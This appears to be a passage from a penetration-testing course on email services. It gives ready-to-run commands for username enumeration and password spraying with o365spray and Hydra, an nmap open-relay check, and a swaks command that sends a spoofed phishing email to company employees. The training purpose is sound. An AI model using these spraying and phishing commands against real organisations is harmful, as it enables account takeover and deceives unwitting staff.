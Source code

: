 Now, we can attempt to identify usernames.

```shell-session
$ python3 o365spray.py --enum -U <users wordlist> --domain <domain>
```

### Password Attacks

We can use Hydra for password spray or brute force against services such as `SMTP`, `POP3`, or `IMAP4`.

#### Hydra - Password Attack
```shell-session
$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

If cloud services support `SMTP`, `POP3`, or `IMAP4`, we can attempt to use Hydra, but those tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft O365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta. Those tools must be up to date, since they may not work when the service provider changes something.

#### O365 Spray - Password Spraying
```shell-session
$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

### Protocol Specific Attacks

An open relay is Simple Transfer Mail Protocol (SMTP) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are configured as open relays allow mail from any source to be transparently  re-routed through the open relay server. This behavior masks the source of the message and makes it look like the mail originated from the open relay server.

#### Open Relay

We can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows open relay.

```shell-session
# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

Next, we can use any mail client to connect to the mail server and send our email.

```shell-session
# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

## Latest Email Services Vulnerabilities

One of the most recent publicly disclosed and dangerous SMTP vulnerabilities was discovered in [OpenSMTPD](https://www.opensmtpd.org/) up to version 6.6.2 service was in 2020. This vulnerability was assigned [CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247) and leads to RCE. It has been exploitable since 2018. This service has been used in many different Linux distributions. The danger of this vulnerability is the possibility of executing system commands remotely on the system and that exploiting this vulnerability doesn't require authentication.
